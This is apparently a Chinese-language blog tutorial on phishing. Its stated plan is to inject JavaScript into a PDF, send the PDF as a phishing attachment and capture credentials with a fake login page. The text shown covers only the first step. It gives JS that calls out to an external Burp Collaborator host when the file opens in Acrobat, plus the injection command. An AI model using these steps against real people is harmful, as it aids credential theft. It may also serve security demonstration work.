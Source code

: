 # **创建**

**概述**

首先，我将把恶意的 js 代码注入一个 pdf 文件。然后我会用附加的恶意 pdf 文件钓鱼。我还将创建一个假的登录页面，并捕获受害者提交的凭据。

## 步骤 1:创建恶意 pdf 文件

我使用 JS2PDFInjector 将一个简单的恶意 JS 代码注入一个 pdf 文件。链接:【https://github.com/cornerpirate/JS2PDFInjector 

![](img/8b2295d92b29a6caf967a7603574da2a.png)

这将在 pdf 阅读器上打开文件时弹出警告。不是所有的 pdf 阅读器都会执行代码。Adobe Acrobat 包含读取 js 代码的 API。在这篇博客中，我们将使用 acrobat 进行概念验证。

```
app.alert("alter alert");
this.submitForm('[http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net'](http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net'));
```

![](img/aa8410803e73a8d11990726c4e09e012.png)

将代码注入 sample.pdf 文件

```
**java** -jar JS2PDFInjector-1.0.jar $(pwd)/sample.pdf app.js
```

记住:您需要提供 pdf 的绝对路径。否则，您将会遇到如下图所示的错误。

![](img/a4a201d7dad92fb258b0b5f1e25aa7fc.png)
